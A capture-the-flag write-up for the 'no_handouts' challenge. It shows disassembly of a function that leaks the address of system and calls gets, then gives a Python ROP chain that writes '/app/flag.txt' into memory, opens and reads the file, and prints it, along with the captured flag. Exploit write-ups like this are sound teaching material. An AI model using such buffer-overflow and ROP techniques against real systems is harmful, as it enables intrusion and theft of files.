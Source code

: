 # no_handouts

This challenge provided no source code, but it did provide a binary `chall`.

Disassembling it, I saw that the `main` function called `vuln`, which is as follows:

```asm
<vuln>:
endbr64
push   %rbp
mov    %rsp,%rbp
sub    $0x20,%rsp
lea    0xe05(%rip),%rax    ; "system() only works if there's a shell in the first place!"
mov    %rax,%rdi
call   puts
mov    0x2dce(%rip),%rax   ; 3fe0 <system@GLIBC_2.2.5>
mov    %rax,%rsi
lea    0xe2c(%rip),%rax    ; "Don't believe me? Try it yourself: it's at %p"
mov    %rax,%rdi
mov    $0x0,%eax
call   printf
lea    0xe48(%rip),%rax    ; "Surely that's not enough information to do anything else."
mov    %rax,%rdi
call   puts
lea    -0x20(%rbp),%rax
mov    %rax,%rdi
mov    $0x0,%eax
call   gets
mov    $0x0,%eax
leave
ret
```

So this just says where `system` is, and then cals `gets` to provide a free buffer overflow.
It's also given that the flag is located at `/app/flag.txt`

Using the provided location of `system`, we know where `libc` is located. Thanks to this, we can open() the flag, read() its contents, and then puts() the result.

Here's the ROP chain that worked for me:

```python
start_addr = elf_libc.bss() # readable/writable section. We can use this as a buffer
filename = start_addr + 0x00
flag = start_addr + 0x20

flag_length = 50 # INCREASE IF NOT SUFFICIENT
rop_chain = [

             # build "/app/flag.txt" string
             pop_rax, libc + filename,
             pop_rdx_r12, 0x616C662F7070612F, 0, # /app/fla
             mov_at_rax_rdx,  # this gadget is mov qword ptr [rax], rdx ; ret
             pop_rax, libc + filename + 8,
             pop_rdx_r12, 0x7478742E67, 0,       # g.txt
             mov_at_rax_rdx,

             # open file
             pop_rdi, libc + filename,
             pop_rsi, 0,
             pop_rdx_r12, 0, 0,
             open_c,

             # read file
             pop_rdi, 3, # guess at fd, (first fd after STDIN, STDOUT, and STDERR)
             pop_rsi, libc + flag,
             pop_rdx_r12, flag_length, 0,
             read,

             # write value
             pop_rdi, libc + flag,
             puts,
            ]
```

After injecting that, I got this output: `bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}`
As this flag says, this is not the only way this could've been solved.



